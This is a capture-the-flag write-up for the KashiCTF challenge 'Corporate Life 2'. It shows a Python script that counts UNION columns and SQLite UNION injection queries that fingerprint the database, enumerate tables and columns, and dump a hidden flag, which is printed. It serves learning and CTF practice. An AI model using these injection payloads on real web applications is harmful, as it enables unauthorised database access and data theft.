





# Corporate Life 2 (261 pts)



Similar to the **Corporate Life 1** challenge, there is an endpoint called `/v2-testing`, which also contains **SQL Injection** at `/api/list-v2` in the `filter` param

However, this time, there is no flag when I tried `'OR 1=1;--` (- -)


Based on the challenge description, the flag is hidden in the database, so now my goal is to dump all the data from it

Initially, I thought about using `sqlmap` to scan, but for some reason, it doesn't work :(

So first, let's detect how many columns in this

I started with `'UNION SELECT NULL;--` but I got `{"error":"Internal Server Error: Database communication failed"}`, so I increase to `'UNION SELECT NULL, NULL;--` and continue until no more errors

To speed up, I wrote a script to find the number of columns

```python
#!/usr/bin/python3

import requests

url = "http://kashictf.iitbhucybersec.in:44010/api/list-v2"
headers = {"Content-Type": "application/json"}
payload = "'UNION SELECT NULL"

while True:
    payload += ";--"
    print(payload)
    json_data = {"filter": payload}
    res = requests.post(url, headers=headers, json=json_data).text
    if "Internal Server Error" not in res:
        print(res)
        break
    payload = payload.rstrip(";--") + ",NULL"
```



Okay, so there are 6 columns

To determine the database type, after some ~~Google~~ research, I found some methods to check database versions such as `@@version, version(), sqlite_version()`

I just checked all of them and found that this is `SQLite`

```sql
0'UNION SELECT sqlite_version(), NULL, NULL, NULL, NULL, NULL;--
```




Now, I needed to dump all the tables in the database so:

```sql
0'UNION SELECT name, NULL, NULL, NULL, NULL, NULL FROM sqlite_master WHERE type='table';--
```

After this query, I found 2 tables is `flags` and `requests`



Obviously, I focused on `flags` table, and the next step is to find its columns

```sql
0'UNION SELECT name, NULL, NULL, NULL, NULL, NULL FROM pragma_table_info('flags');--
```



Now I know the `secret_flag` column. And finally, I got the flag with the following query:

```sql
0'UNION SELECT secret_flag, NULL, NULL, NULL, NULL, NULL FROM flags;--
```

The flags were not in order, but after a few swaps I got the correct flag hehe

`Flag: KashiCTF{b0r1ng_old_c0rp0_l1f3_am_1_r1gh7_koegjgE5}`
